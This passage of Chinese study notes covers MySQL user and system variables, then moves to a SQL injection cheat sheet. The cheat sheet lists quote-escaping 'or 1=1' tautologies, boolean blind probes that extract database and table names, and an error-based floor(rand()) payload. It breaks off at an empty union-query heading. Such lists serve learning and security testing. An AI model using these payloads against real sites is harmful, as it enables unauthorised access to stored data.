 @是用户变量，@@是系统变量

用户定义变量的语法

```sql
SET @var_name = expr[,@var_name = expr]

Eg:
SET @age = 100;
```

获取用户定义变量值的方式

```sql
SELECT @age from student;
```

@@系统变量

```sql
SET GLOBAL wait_timeout = 604800;
SELECT @@wait_timeout from dual;
```

------

### 注入常用的函数

连接函数

- concat(str1,str2)
- Group_concat(str1,str2)

用于替换的语句

- or 1=1-+
- 'or 1=1-+
- "or 1=1 -+
- )or 1=1-+
- ')or 1=1-+
- ")or 1=1-+
- "))or 1=1-+

bool SQL 盲注

- left(database(),1)>'s'
- Ascii(substr((select table_name from information_schema.tables where tables_schema = database()limit 0,1),1,1))=101 --+
- ascii(substr((select database()),1,1))=98
- ORD(MID((SELECT FNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23
  - //mid(a,b,c)从b开始截取a的c位ORD = ascii()，转为ascii值

报错盲注

- SELECT 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)\*2))a from information_schema.columns group by a

联合查询语句
